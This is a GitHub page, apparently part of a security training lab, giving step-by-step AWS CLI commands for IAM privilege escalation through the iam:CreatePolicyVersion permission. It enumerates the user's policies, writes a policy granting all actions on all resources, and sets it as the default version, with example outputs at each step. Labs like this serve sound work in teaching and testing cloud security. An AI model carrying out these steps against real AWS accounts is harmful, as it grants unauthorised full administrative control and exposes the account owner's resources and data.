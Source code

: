 # Steps for privesc1-CreateNewPolicyVersion

## 

1. View the user's current attached policies.
 
```
aws iam list-attached-user-policies --user-name privesc1-CreateNewPolicyVersion-user
```

> Example: Output:
```
{
    "AttachedPolicies": [
        {
            "PolicyName": "privesc1-CreateNewPolicyVersion",
            "PolicyArn": "arn:aws:iam::[REDACTED]:policy/privesc1-CreateNewPolicyVersion"
        }
    ]
}
```

2. List the policy versions referencing the Policy ARN you obtained above.

```
aws iam list-policy-versions --policy-arn <POLICY_ARN>
```

> Example Output:
```
{
    "Versions": [
        {
            "VersionId": "v1",
            "IsDefaultVersion": false,
            "CreateDate": "2022-05-09T03:28:11+00:00"
        }
    ]
}
```

3. Get the Policy details of the specifc version.

```
aws iam get-policy-version --policy-arn <POLICY_ARN> --version-id <VERSION_ID>
```

> Example Output:
```
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "iam:CreatePolicyVersion",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2022-05-09T03:28:11+00:00"
    }
}
```

4. Create a new policy document that permits all AWS actions:

```
cat <<EOF > admin_policy.json
{
   "Version": "2012-10-17",
   "Statement": [
       {
           "Sid": "AllowEverything",
           "Effect": "Allow",
           "Action": "*",
           "Resource": "*"
       }
    ]
}
EOF
```

5. Create a new version of the policy, based on the new policy document, and set as default for the user.  Optionally you can add --profile flag.
```
aws iam create-policy-version --policy-arn <POLICY_ARN> --policy-document file://admin_policy.json --set-as-default
```

> Example Output:
```
{
    "PolicyVersion": {
        "VersionId": "v2",
        "IsDefaultVersion": true,
        "CreateDate": "2022-05-09T04:52:13+00:00"
    }
}
```

6. Re-list policy versions and you should see the new version added and also set as new default.

```
aws iam list-policy-versions --policy-arn <POLICY_ARN>
```

> Example Output:
```
{
    "Versions": [
        {
            "VersionId": "v2",
            "IsDefaultVersion": true,
            "CreateDate": "2022-05-09T04:52:13+00:00"
        },
        {
            "VersionId": "v1",
            "IsDefaultVersion": false,
            "CreateDate": "2022-05-09T03:28:11+00:00"
        }
    ]
}
```

7. View the details of the new version of the policy.

```
aws iam get-policy-version --policy-arn <POLICY_ARN> --version-id v2
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "AllowEverything",
                    "Effect": "Allow",
                    "Action": "*",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": true,
        "CreateDate": "2022-05-09T04:52:13+00:00"
    }
}
```
